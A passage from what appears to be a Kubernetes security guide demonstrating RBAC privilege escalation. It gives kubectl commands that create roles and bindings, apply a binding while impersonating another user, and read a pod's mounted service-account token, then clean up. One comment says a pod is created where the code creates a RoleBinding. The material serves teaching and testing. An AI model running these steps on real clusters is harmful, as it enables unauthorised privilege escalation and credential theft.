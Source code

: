 ```bash
  - apiGroups: [""]
    resources: ["pods"]
    verbs: ["get", "list", "delete", "patch", "create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: test-rb2
subjects:
  - kind: ServiceAccount
    name: test-sa
    apiGroup: ""
roleRef:
  kind: Role
  name: test-r2
  apiGroup: rbac.authorization.k8s.io' | kubectl apply -f -

# Create a pod as user Test with the SA test-sa (privesc step)
echo "apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: test-r2
subjects:
  - kind: ServiceAccount
    name: test-sa2
    apiGroup: ""
roleRef:
  kind: Role
  name: test-r2
  apiGroup: rbac.authorization.k8s.io"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
kubectl exec -ti -n default test-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Clean the scenario
kubectl delete rolebinding test-rb
kubectl delete rolebinding test-rb2
kubectl delete role test-r
kubectl delete role test-r2
kubectl delete serviceaccount test-sa
kubectl delete serviceaccount test-sa2
```

## Bind explicitly Bindings

##绑定明确绑定

In the "Privilege Escalation Prevention and Bootstrapping" section of [https://unofficial-kubernetes.readthedocs.io/en/latest/admin/authorization/rbac/](https://unofficial-kubernetes.readthedocs.io/en/latest/admin/authorization/rbac/) it's mentioned that if a SA can create a Binding and has explicitly Bind permissions over the Role/Cluster role, it can create bindings even using Roles/ClusterRoles with permissions that it doesn't have.\
